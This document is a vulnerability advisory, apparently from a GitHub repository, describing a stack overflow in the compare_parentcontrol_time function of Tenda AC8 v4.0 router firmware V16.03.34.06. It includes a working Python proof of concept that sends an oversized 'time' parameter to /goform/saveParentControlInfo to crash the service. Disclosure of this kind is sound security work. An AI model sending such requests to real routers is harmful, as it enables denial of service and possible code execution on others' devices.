






# Tenda Router Vulnerability on compare_parentcontrol_time function
> vendor:Tenda
>
> product:AC8
>
> version:v4.0 V16.03.34.06
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html
## Vulnerability Description

Tenda AC8V4.0 V16.03.34.06 were discovered to contain a stack overflow via the `time` parameter in the `compare_parentcontrol_time` function.

## Vulnerability Details

In function  `compare_parentcontrol_time`  line 25, it reads in a user-provided parameter `time`.Line 48, the variable is passed to the `sscanf` function without any length check, which may overflow the stack-based buffer `local_2c` and `local_4c`. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.



## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
host = '192.168.1.100'
port = 80
url = f'http://{host}:{port}/goform/saveParentControlInfo'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

data = {
    'powerSavingEn': 'aaaaa',
    'time': 'ntrolInfoHTTP/1.1Host8.1.1.0:81Content-aafasdfasdfdfsaf'
}
response = requests.post(url, headers=headers, data=data)
```






## gdb registers change
After executing the `sscanf` function, the `ra` register was modified, causing the return address of the function to be incorrect, as shown in the figure below.



# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.